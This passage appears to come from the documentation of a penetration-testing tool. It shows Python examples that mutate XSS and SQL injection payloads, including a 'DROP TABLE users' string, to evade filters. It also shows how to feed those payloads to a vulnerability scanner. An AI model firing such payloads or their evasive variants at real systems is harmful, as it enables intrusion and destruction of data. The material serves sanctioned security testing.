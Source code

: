 3. **Adjust complexity appropriately** - Higher isn't always better. For initial testing, use complexity level 3. Increase to 4-5 only when needed for evasion.

4. **Review mutations** - Especially at higher complexity levels, review generated mutations to ensure they're still valid for your testing scenario.

5. **Combine with AI testing** - The mutation engine works well with Sniper's autonomous testing capabilities, providing dynamic payload generation.

## Examples

### Testing for XSS with mutations

```python
from src.payloads import mutate_payloads
from src.integrations.vulnerability_scanner import VulnerabilityScanner

# Original XSS payloads
xss_payloads = [
    "<script>alert('XSS')</script>",
    "<img src=x onerror=alert('XSS')>"
]

# Generate mutations with context awareness
html_context_payloads = mutate_payloads(
    xss_payloads, "xss", "html", num_variations=3, complexity=3
)

js_context_payloads = mutate_payloads(
    xss_payloads, "xss", "javascript", num_variations=3, complexity=3
)

# Use the scanner with mutated payloads
scanner = VulnerabilityScanner("https://example.com")
scanner.add_payloads("xss", html_context_payloads)
scanner.add_payloads("xss_js", js_context_payloads)
scanner.start()
```

### SQL Injection with Database-Specific Mutations

```python
from src.payloads.mutator import PayloadMutator

# Base SQLi payloads
sqli_payloads = [
    "' OR 1=1 --",
    "'; DROP TABLE users; --"
]

# Create mutations for different databases
mutator = PayloadMutator(complexity=4)

mysql_mutations = []
mssql_mutations = []

for payload in sqli_payloads:
    mysql_mutations.extend(
        mutator.mutate_payload(payload, "sql_injection", "mysql", 2)
    )
    mssql_mutations.extend(
        mutator.mutate_payload(payload, "sql_injection", "mssql", 2)
    )

print(f"Generated {len(mysql_mutations)} MySQL-specific mutations")
```
